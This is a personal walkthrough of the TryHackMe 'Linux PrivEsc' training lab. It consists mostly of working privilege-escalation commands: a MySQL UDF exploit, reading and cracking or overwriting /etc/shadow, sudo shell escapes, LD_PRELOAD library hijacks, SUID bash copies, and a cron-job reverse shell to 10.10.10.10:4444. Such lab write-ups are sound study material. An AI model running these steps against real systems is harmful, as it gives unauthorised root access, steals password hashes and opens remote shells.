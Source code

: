 ```yaml
---
description: >-
  Today is my Day 1 and I am going to solve machine named Linux PrivEsc on
  TryHackMe lets goo!!!!
---
```


# Day 1 — Linux PrivEsc

{% embed url="https://miro.medium.com/v2/resize:fit:640/format:webp/0*k-2t2eWJ08uuoBjZ.gif" %}

{% hint style="info" %}
**misconfigured** Debian VM with multiple ways to get root! SSH is available. <mark style="color:red;">**Credentials: user:password321**</mark>
{% endhint %}

### Service Exploits

**using nmap** \


<figure><img src="../../../../../.gitbook/assets/image (1) (1).png" alt=""><figcaption><p>open ports</p></figcaption></figure>

{% code overflow="wrap" %}
```bash
cd /home/user/tools/mysql-udf
gcc -g -c  raptor_udf2.c  -fPIC
gcc -g -shared -Wl,-soname,raptor_udf2.so -o raptor_udf2.so raptor_udf2.o -lc
```
{% endcode %}

**I found misconfiger in sql login with out password**

{% hint style="info" %}
Execute the following commands on the MySQL shell to create a User Defined Function (UDF) "do\_system" using our compiled exploit:
{% endhint %}

A user-defined function (UDF) is a [function](https://en.wikipedia.org/wiki/Function\_\(programming\)) provided by the user of a program or environment, in a context where the usual assumption is that functions are built into the program or environment. UDFs are usually written for the requirement of its creator.

```bash
mysql -u root
```

<figure><img src="../../../../../.gitbook/assets/image (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

```sql
use mysql;
create table foo(line blob);
insert into foo values(load_file('/home/user/tools/mysql-udf/raptor_udf2.so'));
select * from foo into dumpfile '/usr/lib/mysql/plugin/raptor_udf2.so';
create function do_system returns integer soname 'raptor_udf2.so';
```

#### What is BLOB in MySQL?

BLOB, which stands for a **Binary Large Object**, is a MySQL data type that can store images, PDF files, multimedia, and other types of binary data.

<figure><img src="../../../../../.gitbook/assets/image (2) (1).png" alt=""><figcaption></figcaption></figure>

Use the function to copy /bin/bash to /tmp/rootbash and set the SUID permission:

```sql
select do_system('cp /bin/bash /tmp/rootbash; chmod +xs /tmp/rootbash');
/tmp/rootbash -p
```

<figure><img src="../../../../../.gitbook/assets/image (3) (1).png" alt=""><figcaption><p>SERVICE EXPLOIT</p></figcaption></figure>

### Weak File Permissions - Readable /etc/shadow

**Read only => r**

{% code lineNumbers="true" %}
```bash
ll /etc/shadow
cat /etc/shadow
#hash root in file using nano
john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```
{% endcode %}

<figure><img src="../../../../../.gitbook/assets/image (4) (1).png" alt=""><figcaption></figcaption></figure>

**What hashing algorithm was used to produce the root user's password hash?**

```
cat hash | hashid
```

<figure><img src="../../../../../.gitbook/assets/image (5).png" alt=""><figcaption><p><strong>SHA-512  Crypt</strong></p></figcaption></figure>

### Weak File Permissions - Writable /etc/shadow

**Write only**

{% code lineNumbers="true" %}
```bash
ll /etc/shadow
cat /etc/shadow
mkpasswd -m sha-512 newpasswordhere #=> read only
or 
openssl passwd newpasswordhere => #wite only
su root

```
{% endcode %}

Generate a new password hash with a password of your choice:

<mark style="color:green;">**`mkpasswd -m sha-512 newpasswordhere`**</mark>\


<mark style="color:green;">**`openssl passwd newpasswordhere`**</mark>

### Sudo - Shell Escape Sequences

Visit GTFOBins ([https://gtfobins.github.io](https://gtfobins.github.io/)) and search for some of the program names. If the program is listed with “sudo” as a function, you can use it to elevate privileges, usually via an escape sequence.

```bash
#vim
sudo vim -c ':!/bin/bash'

#nano 
sudo nano -s /bin/bash
/bin/bash
^T
#apache2
sudo apache2 -f /etc/shadow #=> crack the hash and gain the root
```

## Task 7 — Sudo — Environment Variables <a href="#a6ec" id="a6ec"></a>

Using LD\_PRELOAD

```basic
 gcc -fPIC -shared -nostartfiles -o /tmp/preload.so /home/user/tools/sudo/preload.c
 sudo LD_PRELOAD=/tmp/preload.so apache2
```

`ldd /usr/sbin/apache2`

```bash
gcc -o /tmp/libcrypt.so.1 -shared -fPIC /home/user/tools/sudo/library_path.c
sudo LD_LIBRARY_PATH=/tmp apache2
```

### Cron Jobs - File Permissions

```bash
cat /etc/cronta

#!/bin/bash
bash -i >& /dev/tcp/10.10.10.10/4444 0>&1
```

using nc  in kali

```bash
nc -nvlp 4444
```

### Cron Jobs - PATH Environment Variable

**Note that the PATH variable starts with /home/user which is our user's home directory.**

**Create a file called overwrite.sh in your home directory with the following contents:**

```bash
cat /etc/crontab

#!/bin/bash

cp /bin/bash /tmp/rootbash
chmod +xs /tmp/rootbash
```

<mark style="color:green;">**`chmod +x /home/user/overwrite.sh`**</mark>

```basic
/tmp/rootbash -p
```
